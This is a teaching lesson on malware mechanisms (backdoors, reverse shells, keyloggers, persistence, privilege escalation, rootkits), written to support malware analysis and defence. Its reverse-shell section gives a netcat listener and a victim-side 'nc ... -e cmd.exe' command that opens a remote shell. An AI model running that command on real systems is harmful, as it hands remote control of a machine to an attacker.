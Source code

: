 # Lesson 3. Malware Mechanisms and Behaviour

## 1. **Backdoors**
A backdoor in a computer system, software, or network is essentially a hidden entry point that allows remote access to the system. It's like secretly adding a hidden door to a house that only the installer knows about, allowing them to enter whenever they want without anyone else knowing.

- **Common Features**:
  - Manipulate system settings and files.
  - Often use HTTP (port 80) to blend in with normal traffic.

### Reverse Shells
A reverse shell is a type of backdoor that essentially makes the targeted computer reach out to another computer (controlled by an attacker) and open a remote command line interface. In essence, it reverses the typical communication model; instead of the attacker directly connecting to the system, the system connects back to the attacker.

- **Netcat Example**:
  - Listener setup: `nc -l –p 80`
  - Victim connection: `nc listener_ip 80 -e cmd.exe`

## 2. **Keystroke Logging**

Keystroke logging, or keylogging, involves recording the keys struck on a keyboard, typically covertly, so that the person using the keyboard is unaware that their actions are being monitored. This can capture everything from personal messages to usernames and passwords.

- **Purpose**: Captures users' keystrokes to steal sensitive information like passwords.
- **Types**:
  - **Hardware Keyloggers**: Installed between the keyboard and machine, often require physical access for data retrieval.
  - **Kernel-based**: Part of a rootkit, acts as a driver, highly stealthy.
  - **User-space**: Uses Windows API functions such as `GetAsyncKeyState` and `GetForegroundWindow`.

## 3. **Persistence**

Persistence in the context of malware refers to the techniques that malware uses to remain active on an infected system even after reboots, updates, or attempts to clean the system. This could involve the malware adding itself to a list of programs that are automatically started each time the computer boots up.

## 4. **Privilege Escalation**

Privilege escalation occurs when a user or process gains elevated access to resources that are normally protected from an application or user. This means a regular user gaining administrator-level permissions through vulnerabilities in the system, which can then allow them to execute commands and access data that are normally restricted.

- **Objective**: Gain higher privileges on the system to execute actions restricted to administrators or system processes.
- **Common Techniques**:
  - Exploiting known vulnerabilities.
  - Using the `SeDebugPrivilege` to modify access tokens and gain extensive system controls.

## 5. **Rootkits**

A rootkit is a type of malicious software that is designed to gain unauthorized root or administrative access to a computer or network. The rootkit hides its existence and actions from users and other system processes, making it extremely difficult to detect and remove.

- **Example**: Modifying the System Service Descriptor Table (SSDT) to intercept system calls.


## Relationship to Malware Analysis
Understanding these concepts is critical in malware analysis for several reasons:

- **Detection**: Analysts need to know what types of behaviors to look for, such as unexpected network connections (reverse shells), unauthorized access attempts (backdoors, privilege escalation), and signs of covert monitoring (keyloggers).

- **Response**: Knowing how these threats operate helps in developing appropriate response strategies that can contain and mitigate damage. For example, if persistence mechanisms are understood, they can be targeted and disabled during remediation.

- **Prevention**: Understanding how attackers exploit systems via these methods can lead to better defenses, such as improved security protocols, better user education, and enhanced monitoring systems.
